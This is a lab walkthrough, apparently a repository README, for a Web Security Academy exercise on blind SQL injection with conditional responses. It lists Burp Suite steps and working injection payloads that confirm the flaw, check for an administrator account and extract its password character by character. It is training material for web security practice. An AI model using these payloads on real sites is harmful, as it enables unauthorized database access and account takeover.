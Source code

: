 # SQL Injection Lab 11 - Blind SQL injection with conditional responses

## Manual Solution

### 1. Access the lab in Web Security Academy

### 2. Initial Setup:
   - Open Burp Suite and intercept a GET request to the website
   - Send the captured request to Repeater for testing

### 3. Verify SQL Injection Vulnerability:
   - Add trackingID parameter: `' and 1=1 --` 
   - Confirm vulnerability by observing "welcome back" message in response

### 4. Confirm Administrator User Exists:
   - Payload: `' and 'administrator' = (SELECT username FROM users WHERE username = 'administrator') --`
   - Verify existence by checking for "welcome back" message

### 5. Determine Password Length:
   - Initial payload: `' and (SELECT LENGTH(password) FROM users WHERE username = 'administrator') <= 1--`
   - Use Intruder with:
     * Payload position: `1`
     * Payload type: Numbers (1-60)
   - Password length is identified where response lengths change
   
### 6. Extract Password Characters:
   - Base payload: `' and (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a'--`
   - Configure Intruder:
     * First position: `SUBSTRING(password,[position],1)`
       - Payload type: Numbers (1 to password length)
     * Second position: Character to test
       - Payload type: Brute forcer (a-z, 0-9)
   - Identify correct characters by analyzing response lengths

### 7. Login:
   - Use extracted password to login as administrator
   - Verify successful access to admin account

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_11.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
